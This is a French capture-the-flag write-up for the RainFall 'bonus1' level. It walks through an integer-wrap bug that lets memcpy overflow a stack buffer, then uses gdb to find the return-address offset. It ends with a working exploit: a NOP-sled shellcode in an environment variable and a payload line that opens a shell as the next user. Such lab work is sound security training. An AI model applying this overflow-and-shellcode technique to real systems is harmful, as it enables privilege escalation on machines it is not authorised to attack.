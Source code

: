 # Soluce

Payload : 
```
cat | ./bonus1 -2147483628 $(python -c 'print("A" * 56 + "\x1c\xf3\xff\xbf")')
```

## Description du code

-   2 variable sont declarer dans le main, un buffer d'une taille de 40 et un int, dest et v5
-   Ensuite cela fait un atoi sur argv[1] et stock le resultat dans v5 
-   Si v5 est superieur a 9 cela return 1
-   Cela fait un memcpy,qui copie argv[2] dans dest, d'une taille de 4 * v5, dans un size_t
-   Le reste du code ne sera pas important pour ce niveau

## Explication

On peu constater plusieur chose, deja la condition qui check v5 ne check pas si elle est negatif, du coup v5 peu etre un chiffre compris entre INT_MIN et 9, ensuite l'argument qui defini la taille de ce qui va etre copier dans dans dest est multiplié par 4 et est stocker dans un size_t qui est focement positif.

On va pouvoir du coup profiter du wrapping des limite de type pour faire overflow memcpy, testons les valeurs pour savoir les limites de type, avec notre programe en c :
```
#########################################################################
#include <stdio.h>                                                      #
#include <stdlib.h>                                                     #
                                                                        #
int main(int ac, char **av){                                            #
    int v5 = atoi(av[1]);                                               #
    printf("*4: %zu\n", (size_t)(4 * v5));                              #
    printf("*1: %zu\n", (size_t)(v5));                                  #
    printf("/4: %zu\n", ((size_t)(v5))/4);                              #
}                                                                       #
#########################################################################
```
```
bonus1@RainFall:/tmp$ ./doop -1
*4: 4294967292
*1: 4294967295
/4: 1073741823
bonus1@RainFall:/tmp$ ./doop 4294967295
*4: 4294967292
*1: 2147483647
/4: 536870911
bonus1@RainFall:/tmp$ ./doop -2147483647
*4: 4
*1: 2147483649
/4: 536870912
bonus1@RainFall:/tmp$ ./doop -2147483648
*4: 0
*1: 2147483648
/4: 536870912
bonus1@RainFall:/tmp$ ./doop -2147483618
*4: 120
*1: 2147483678
/4: 536870919
```
On peu en deduire ceci :

size_t est seulement un unsigned int ici, si l'on entre INT_MIN cela donne UINT_MAX + 1 donc 0, et cela sera la taille fournis a memcpy.
Plus qu'a retirer le nombre d'octet que l'on veut pour generer un buffer overflow :
```
bonus1@RainFall:~$ ./bonus1 -2147483618 $(python -c 'print("A" * 40')
Segmentation fault (core dumped)
```
maintenant observont les registre :
```
bonus1@RainFall:~$ gdb ./bonus1 

(gdb) b main
Breakpoint 1 at 0x8048427

(gdb) run  -2147483618 $(python -c 'print("A" * 40)')
Starting program: /home/user/bonus1/bonus1 -2147483618 $(python -c 'print("A" * 40)')

Breakpoint 1, 0x08048427 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x90909090 in ?? ()

(gdb) info r
eax            0x0      0
ecx            0x90909090       -1869574000
edx            0xbfffef5c       -1073746084
ebx            0xb7fd0ff4       -1208152076
esp            0xbfffef20       0xbfffef20
ebp            0x90909090       0x90909090
esi            0x0      0
edi            0x0      0
eip            0x90909090       0x90909090
eflags         0x200293 [ CF AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

On vois bien que l'adresse de retour a ete overwrite, maintenant plus qu'as determiner l'offset :

```
(gdb) run  -2147483618 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483618 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9

Breakpoint 1, 0x08048427 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x39624138 in ?? ()
(gdb) info r
eax            0x0      0
ecx            0x39644138       962871608
edx            0xbfffef0c       -1073746164
ebx            0xb7fd0ff4       -1208152076
esp            0xbfffeed0       0xbfffeed0
ebp            0x62413762       0x62413762
esi            0x0      0
edi            0x0      0
eip            0x39624138       0x39624138
eflags         0x200212 [ AF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

0x39624138 = 8Ab9 = 56 in Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9

maintenant plus qu'as faire notre payload.

## Payload :

On peu faire ret to libc ou un shellcode :

```
export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')

(gdb) run
Starting program: /home/user/bonus1/bonus1 

Breakpoint 1, 0x08048427 in main ()
(gdb) call (char*)getenv("SHELLCODE")
$1 = 0xbffff129 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
```
0xbffff129 + 500 = 0xbffff31d ; pour tomber dans le nop sled 

[ Int min + 30 ] + [ Padding de 56 ] + [ Adresse du shellcode + 500 ]
```
bonus1@RainFall:~$ cat | ./bonus1 -2147483628 $(python -c 'print("A" * 56 + "\x1c\xf3\xff\xbf")')
whoami
bonus2
```